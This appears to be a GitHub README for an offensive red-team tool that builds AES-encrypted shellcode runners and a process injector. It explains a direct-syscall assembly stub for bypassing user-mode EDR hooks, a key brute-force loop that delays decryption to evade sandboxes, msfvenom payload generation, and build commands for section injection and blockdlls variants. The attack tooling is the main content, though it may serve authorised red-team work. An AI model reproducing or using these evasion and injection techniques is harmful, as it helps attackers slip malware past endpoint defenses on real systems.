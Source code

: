 # GENERIC SYSCALL
This code impliments the Sorting by System Call Address method described in a [blogpost.](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)<br>

quick disasm with https://defuse.ca/online-x86-assembler.htm#disassembly
```
ZwX:
   58                          pop     rax            ; return address
   41 5A                       pop     r10
   50                          push    rax            ; save in shadow space as _rcx
   51                          push    rcx            ; rax = ssn
   58                          pop     rax
   52                          push    rdx            ; rcx = arg1
   41 5A                       pop     r10
   41 50                       push    r8             ; rdx = arg2
   5A                          pop     rdx
   41 51                       push    r9             ; r8 = arg3
   41 58                       pop     r8             ; r9 = arg4
   4C 8B 4C 24 20              mov     r9, [rsp + 0x20]
   0F 05                       syscall
   FF 64 24 18                 jmp     qword[rsp]
```
This is an interesting technique because it removes the need to both define native function types in our header files and to define each native function in assembly.  
Some prerequisite knowledge:  
- When a function is called the return address is pushed to the stack and execution jumps to the address of the function. So `call` is really like a `push ret` then `jmp faddr` instruction.  
- In x64 the fastcall calling convention is used. With fastcall four registers are used to hold the first four parameters of a function (`rcx`, `rdx`, `r8`, `r9`).  

So `pop rax` moves the return address from the top of the stack to `rax` register. Now `first parameter` of the function is at the top.  
`pop r10` moves the next item from the top of the stack to `r10`.
The return address in `rax` is moved back to the top of the stack with the `push rax` operation.
The first parameter of our ZwX fucntion is then pushed onto the stack with `push rcx`.  
The stack then starts to look more like the stdcall the underlying native function is expecting.  


## Encoding  
The shellcode is encrypted with AES-CBC encryption via the kokke TinyAES library.  
The IV and key are generated with the get_random_bytes function in the pycryptodome library.  
The shellcode payload is decrypted with a crude brute-force loop of the last two bytes of the key instead of using the sleep function.  
```c 
for (int i = 0x00; i<=0xff;i++) {
    key[14] = i;
    for (int j = 0x00; j <= 0xff;j++) {
        key[15] = j;
        AES_init_ctx_iv(&ctx, key, iv);
        AES_CBC_decrypt_buffer(&ctx, encrypted_instructions, ENCRYPTED_BIN_LEN);
``` 
There is a loader, which just runs the shellcode in the same process via function pointer, a loader that does the same thing but via sections, and a process injector.  

Dependencies:
```
gcc
python3
nasm
```

use like
```bash
python3 -m venv env  
source env/bin/activate  
pip install pycryptodome  
msfvenom -p windows/x64/exec CMD='C:\Windows\System32\notepad.exe' EXITFUNC=process -f raw -o test.bin  
python build.py -inbin test.bin -execmethod runner
python builder.py -inbin test.bin -execmethod section_inject --process notepad.exe --cmdline 'c:\\windows\\system32\\firefox.exe'
```


```bash
usage: builder.py [-h] [-inbin INBIN] [-execmethod {section_inject,section_runner,section_runner_dll,section_runner_big,section_runner_big_dll,runner,runner_dll,runner_big_blockddls,runner_big_blockddls_dll,runner_blockdlls,runner_blockdlls_dll}] [--process PROCESS] [--cmdline CMDLINE] [--verbose]

generate AES-CBC encrypted shellcode runners

optional arguments:
  -h, --help            show this help message and exit
  -inbin INBIN          .bin file
  -execmethod {section_inject,section_runner,section_runner_dll,section_runner_big,section_runner_big_dll,runner,runner_dll,runner_big_blockddls,runner_big_blockddls_dll,runner_blockdlls,runner_blockdlls_dll}
  --process PROCESS     process to inject (only with 'section_inject')
  --cmdline CMDLINE     cmdline argument to show (only with 'section_inject')
  --verbose             
  ```  

### References & Reading
Generally:  
hasherezade -- rely heavilly on her PEB lookup heeader code
forrest-orr -- excellent code to read and learn from  
batsec -- lots of python building stuff from his shad0w project
https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams  
https://github.com/simon-whitehead/assembly-fun/blob/master/windows-x64/README.md  